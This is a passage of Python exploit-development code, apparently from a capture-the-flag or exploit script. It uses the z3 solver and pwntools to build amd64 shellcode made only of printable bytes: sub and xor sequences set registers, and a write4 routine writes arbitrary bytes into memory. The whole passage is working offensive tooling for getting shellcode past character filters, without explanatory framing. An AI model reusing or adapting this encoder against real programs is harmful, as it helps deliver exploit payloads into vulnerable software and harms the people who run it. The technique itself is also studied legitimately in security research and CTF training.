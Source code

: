 ```python
        s.add(expr ^ z == BitVecVal(i32, 32))
        for var in variables:
            for k in range(0, 32, 8):
                s.add(Extract(k+7, k, var) >= BitVecVal(0x20, 8))
                s.add(ULT(Extract(k+7, k, var), BitVecVal(0x7f, 8)))
        if str(s.check()) == 'sat':
            m = s.model()
            return map(int, map(str, map(m.evaluate, variables)))
    else:
        raise ValueError("couldn't solve eax=%08x" %(i32,))

def add_eax(i32):
    shellcode = ''
    soln = solve_add_eax(i32)
    for sub in soln:
        shellcode += 'sub eax, 0x%08x\n' % (sub,)
        assert (is_ok32(sub))
    return asm(shellcode, arch='amd64')

def set_eax(i32):
    shellcode = 'push rbx; pop rax;'
    soln = solve_set_eax(i32)
    for sub in soln[1:]:
        shellcode += 'sub eax, 0x%08x\n' % (sub,)
        assert (is_ok32(sub))
    shellcode += 'xor eax, 0x%08x' % (soln[0])
    assert (is_ok32(soln[0]))
    return asm(shellcode, arch='amd64')

# rdi = rax = controlled, r8 and r9 clobbered
def set_rdi(i32):
    return set_eax(i32) + asm('push rax; pop rdi', arch='amd64')

def add_rdi(i32):
    return asm('push rdi; pop rax;', arch='amd64') + add_eax(i32) + asm('push rax; pop rdi', arch='amd64')

add_rdi_4 = add_rdi(4)

# writes arbitrary 4 bytes at [rdx+offset], rcx, rax, rsi clobbered
# rdi incremented by 4
def write4(i32):
    shellcode = ''

    # zero 4 bytes at rdx+rdi
    shellcode += asm('''
movsx rsi, dword ptr [rdx+rdi]
xor [rdx+rdi], esi
''', arch='amd64')
    
    shellcode += set_eax(i32)

    # [rdx+rdi] = rsi = [rcx] = rax
    shellcode += asm('''
push rax
pop rsi
xor [rdx+rdi], esi
''', arch='amd64')

    shellcode += add_rdi_4

    return shellcode

```